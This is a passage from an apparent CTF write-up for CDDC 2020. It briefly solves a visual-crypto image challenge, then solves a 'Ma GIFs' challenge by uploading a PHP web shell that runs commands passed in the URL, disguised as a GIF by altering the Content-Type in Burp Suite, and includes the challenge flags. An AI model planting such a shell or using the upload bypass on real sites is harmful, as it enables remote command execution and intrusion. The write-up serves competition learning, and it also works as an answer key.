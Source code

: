 **Solution**

Tool used: https://www.diffchecker.com/image-diff

![](./screenshots/visual_noise.png)

**Flag**

```
CDDC20{V1suAl_CrYPT0_iS_s0_53cuRE}
```

## Ma GIFs

**Challenge**

Well apparently, the CTO of Unduplicitous Corp love, love, LOVE GIFs! ;)

http://magifs.chall.cddc2020.nshc.sg:13373/

**Solution**

upload a php file 

```php
    <?php
        $cmd = $_GET['cmd'];
        system($cmd)
    ?>
```

Use burp suite to change the file type from application/php to image/gif

Once php file uploaded, go to http://magifs.chall.cddc2020.nshc.sg:13373/uploads/filename.php?cmd=grep%20-r%20%2220%22%20/var/ to find the flag

![](./screenshots/gif.png)

**Flag**

```
CDDC20{w0W_u_hAz_FlaG!!h3he}
```

## ilovedes
